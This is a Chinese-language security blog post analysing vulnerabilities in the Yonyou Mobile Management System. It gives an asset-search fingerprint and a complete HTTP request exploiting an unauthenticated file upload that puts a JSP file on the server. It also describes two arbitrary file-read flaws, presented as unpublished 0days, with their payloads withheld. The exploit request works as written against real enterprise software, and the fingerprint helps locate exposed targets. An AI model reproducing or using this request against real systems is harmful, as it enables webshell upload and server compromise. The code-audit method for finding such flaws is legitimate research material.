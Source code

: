 #  用友移动管理系统漏洞分析（在野）

原创 Kokoxca安全  [ Kokoxca安全 ](javascript:void\(0\);)

**Kokoxca安全** ![]()

微信号 gh_b130bebc48f2

功能介绍 学习网络安全，渗透笔记，代码审计。

____

___发表于_

收录于合集 #代码审计 8个

0x01免责声明

技术文章仅供参考学习，请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。

0x02 影响版本

用友-移动管理系统  

指纹信息：app="用友-移动系统管理"

这个系统在外网用的不是特别多  
  

0x03 漏洞复现

前段时间用友移动管理系统爆出来了一个文件上传漏洞，这个就不过多分析了。

数据包：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1Host: Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.serverConnection: closeContent-Length: 200  
    ------WebKitFormBoundaryvLTG6zlX0gZ8LzO3Content-Disposition: form-data; name="downloadpath"; filename="test.jsp"Content-Type: application/msword  
    test------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--

![]()

![]()

上传后的位置：

  * 

    
    
    /maupload/apk/test.jsp

  

 **0x04 漏洞分析（0day在野）**

  1. 任意文件读取漏洞（1）  

之前的文章也都写过文件读取漏洞都要怎么审计，基本上老样子全局搜索一些常见的函数

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    sun.nio.ch.FileChannelImpljava.io.Fi/listFilesjava.io.FileIputStreamjava.io.FileOutputStreamjava.io.FileSystem/Win32FileSystem/WinNTFileSystem/UnixFileSystemsun.nio.fs.UnixFileSystemProvider/WindowsFileSystemProviderjava.io.RandomAccessFilesun.nio.fs.CopyFilesun.nio.fs.UnixChannelFactorysun.nio.fs.WindowsChannelFactoryjava.nio.channels.AsynchronousFileChannelFileUtil/IOUtilfilePath/download/deleteFile/move/getFilereadBufferedReader

分析源码发现doGet方法调用了doPost方法实际功能在doPost中实现，在往下走是从请求中获取文件名filename，针对获取的文件名进行编码处理，然后调用download下载，后面就是一些构造文件的绝对路径等等。  

说简单点就是攻击者可以通过GET或POST请求filename，然后path被构造成一个绝对路径，路径中包含了提供的文件名。那么如果用户能够控制
filename参数，就可以通过构造payload来下载任意文件。（只是自己的理解有分析说错的地方大佬们担待担待）

![]()

漏洞复现：

可以成功读取web.xml文件

![]()

2.任意文件读取（2）

还有一处也是存在任意文件读取的审计思路和方法上面已经说过了，由于公网上未爆出来这些漏洞我也不太敢过多的在文章中分析源码，还请谅解。

漏洞复现

![]()

其实系统还存在其他漏洞这边不太方便发出来，就简单的水一篇文章写写任意文件读取漏洞吧。

想要获取文件读取payload可以关注公众号回复" **yongyou** "获取  

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

